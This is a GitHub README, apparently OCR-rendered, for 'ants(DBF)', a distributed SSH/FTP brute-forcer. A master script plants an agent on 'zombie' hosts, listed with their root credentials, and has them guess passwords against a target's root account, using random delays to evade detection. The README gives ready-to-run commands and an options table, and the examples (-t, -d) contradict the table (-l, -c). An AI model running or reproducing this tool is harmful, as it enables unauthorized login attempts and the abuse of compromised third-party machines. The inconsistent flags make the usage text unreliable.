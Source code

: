 # ants(DBF)         
Simple Distributed BruteForcer        
                  
## Requirement         
**OS system** : Debian/RHEL         
**Runtime Environment** :                   
\>  main-host: python3 with lib(paramiko)               
\>  zombie-host: python3 with lib(paramiko)      
## Introduction        
\>  *owner.py*  : the master control program ,which is used to connect zombie_host (read from zombie_file) and create distribute tasks(use password dictionary). owner.py is a simple distributed bruteforcer framework.                       
\>  *zombie.py* : the child script program, attacker copy zombie.py to zombie_host after connection succeed. zombie.py is a bruteforcer agent, support SSH&FTP cracking this version.               

\#slow mode                    
eg1: Zombie works 1s interval, totally 10 threads        
python owner.py -H 192.168.0.10 -p 22 -u root -F passwd.lst -Z zombie.lst -S ssh -t 10 -d 1         
eg2: Each zombie works 1min interval, totally 300 threads        
python owner.py -T ssh://192.168.0.10:22 -u root -F passwd.lst -Z zombie.lst -t 300 -d 60      
            
![usage-1](https://github.com/aplyc1a/ants/blob/develop/usage-1.png)                
```text                
-H <target host>  : Host IP of target.                 
-p <target_port>  : Port to connect to on the target.                      
-u <target_user>  ：Provide username when connect to the target.                   
-S <type>         : Only support SSH/FTP service now.              
-T <target>       : Provide target information. Format: ssh://10.1.1.1:22
-Z <zombie_file>  : Provide zombie's resource. Format: 192.168.0.1:root:toor.              
-F <passwd_file>  : Dictionary of passwords.                        
-l <threads>      ：Run threads number of connects in parallel, default 5.               
-c <interval>     : Defines the minimum wait time in seconds, default 5s. The ants(DBF) use random time interval technology. The actual time interval is 5.0~10.0 seconds.                
```                 

                

